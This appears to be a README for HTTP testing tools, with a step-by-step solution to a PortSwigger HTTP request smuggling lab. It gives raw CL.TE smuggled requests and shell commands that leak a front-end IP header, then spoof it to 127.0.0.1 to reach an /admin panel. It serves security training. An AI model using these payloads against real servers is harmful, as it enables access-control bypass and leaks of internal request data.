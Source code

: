 # Examples


Use example of:
* [`httpcustomhouse`](https://github.com/ariary/HTTPCustomHouse): to simulate server behavior regarding `Content-Length` and chunk encoding
* [`httpoverride`](https://github.com/ariary/HTTPCustomHouse): to change headers of raw request for people not at ease with `sed` 
* [`httpecho`](https://github.com/ariary/httpecho): HTTP echo server echoing request exactly as it is received
* [`httpclient`](https://github.com/ariary/HTTPCustomHouse): `curl` for raw packet because curl, golang http client rewrite packet and `ncat` or `openssl s_client` aren't satisfying

## Analyze `TE.CL` request treatment

As we want to see how a request is treated and thus how we could interfere this treatment, we will simulate it.

**First**, The front-end server treats the request using `Content-Length` header:
```shell
cat request | httpcustomhouse -cl
## Output is the request transmitted to front-end
```

**Then**, The front use `chunk` encoding to parse HTTP request:
```shell
cat request | httpcustomhouse -cl | httpcustomhouse -te
## Output is the request treated by back end
```

**Finally**, if we want to see if there is some part of `request` that hasn't been treated by backend and thus will be interpreted as the beginning of the next request:
```shell
cat request | httpcustomhouse -cl | httpcustomhouse -te -r
## Output is the request treated by back end
## Color output: the part of the request not treated by backend
## TRICK: add 2>&1 >/dev/null at the end to only obtain the non-treated part
```

## Analyze `CL.TE` request treatment

Same as [`TE.CL`](#analyze-tecl-request-treatment) idea:

First parse request using `chunk` encoding, then using `Content-Length` and finally print part of the request not already treated by back end:
```shell
cat request | httpcustomhouse -te | httpcustomhouse -cl -r
## Output is the request treated by back end
## Color output: the part of the request not treated by backend
## TRICK: add 2>&1 >/dev/null at the end to only obtain the non-treated part
```



## Exploiting HTTP request smuggling to reveal front-end request rewriting

The following example is an alternative to PortSwigger Burp solution for their [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting).


Also to reproduce steps, Export an env var for the lab endpoint:
```shell
export LAB_URL=[YOUR_LAB_URL]
```

Browsing `/admin` endpoint we've got: `Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1`

We also know that:
* The front-end server adds an HTTP header to incoming requests containing their IP address. We have to find its name
* The front-end does not support chunk encoding


### I - Find a POST parameter that is reflected in response
use [`arjun`](https://github.com/s0md3v/Arjun), a tool to detect parameters for URL:
```shell
arjun -u https://$LAB_URL
[...]
[+] Heuristic scanner found 1 parameter: search
```

Confirm with it curl request:
```shell
curl -X POST https://$LAB_URL -s --data "search=toto" | grep "toto" -C 10 --color
[...]                    <section class=blog-header>
                        <h1>0 search results for 'toto'</h1>
                        <hr>
                    </section>
[...]
```
Indeed, the `search` parameter is reflected in h1 tag

### II - Construct legitimate request that reflect parameters
```shell
# in one shell
httpecho -d search
# in another shell
curl -X POST http://localhost:8888/ --data "search=toto" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:'
# empty headers to withdraw curl default ones
```

### III - Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal

To smuggle the request "embed" it in a normal request. The request will include a large Content-Length. As the back-end use it, it will also include the first characters of the next request (which is provided by front end) **=> Added front-end headers can thus be accessible in the response 💥**:

***The request:***
```
POST / HTTP/1.1
Host: [LAb_URL]
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0         <---- End of 1st request for back-end

POST / HTTP/1.1   <---- Begin of 2nd request for back-end
Content-Type: application/x-www-form-urlencoded
Content-Length: 200 <---- Make back-end waiting for 200 bytes to treat it has a full request
Connection: close

search=test <---- End of 1st request for front-end, backend waiting for the other bytes
```

To construct this request:

**1.** Modify the search request with a larger `Content-Length` + w/o `Host` + add `Connection: close` (close teh Connection between server and client to be sure to get the response):
```shell
cat search | httpoverride -cl 200 -H Host -H "Connection:close" > search_modify
```

**2.** Add end of chunk encoding before the `search_modify` request, it is the payload:
```shell
# Add end of chunk encoding:
printf "0\r\n\r\n$(cat search_modify)" > payload
```

**3.** Construct the smuggle request (with `httpecho`):
```shell
curl -s -X POST http://localhost:8888/ --data-binary "@payload" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:' | httpoverride --chunked > smuggle

```

Send the request:
```shell
cat smuggle | httpclient https://$LAB_URL
```

💥 Send it twice. In the second response, as expected we obtain the header of the request including one adde by front-end: (search for `X-*-IP` after search):
```shell
cat smuggle | httpclient https://$LAB_URL > smuggle_response
# To directly have Header value
cat smuggle_response| grep searc -A 1 -m 1 | cut -d ":" -f 1 | cut -d$'\n' -f2
```

**We now have our secret header to overwrite: `X-*-IP`**

### IV - Use secret header to reach admin panel

Smuggle a request with the secret header pointing to 127.0.0.1. We includ it in a smuggled request to prevent it from being rewritten by front-end

```shell
POST / HTTP/1.1
Host: [LAB_URL]
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0           # <---- End of 1st request for back-end

GET /admin HTTP/1.1        <---- Second request for back-end
X-*-Ip: 127.0.0.1     # <---- Secret Header
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

```shell
#Launch server
httpecho -s
# Construct a POST request to /admin
curl -s http://localhost:8888/admin --data "x=1" -H "Content-Length: 10" -H "Connection: close" -H 'User-Agent:'  -H 'Accept:' > post_admin
cat post_admin | httpoverride -H "Host:" -H "X-RvdHFj-Ip: 127.0.0.1" > post_admin_modify
# Adjust body to smuggle post_admin_modify request
printf "0\r\n\r\n$(cat post_admin_modify)" > payload
curl -s -X POST http://localhost:8888/ --data-binary "@payload" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:' | httpoverride --chunked > smuggle
# Perform the request
cat smuggle | httpclient https://$LAB_URL
```
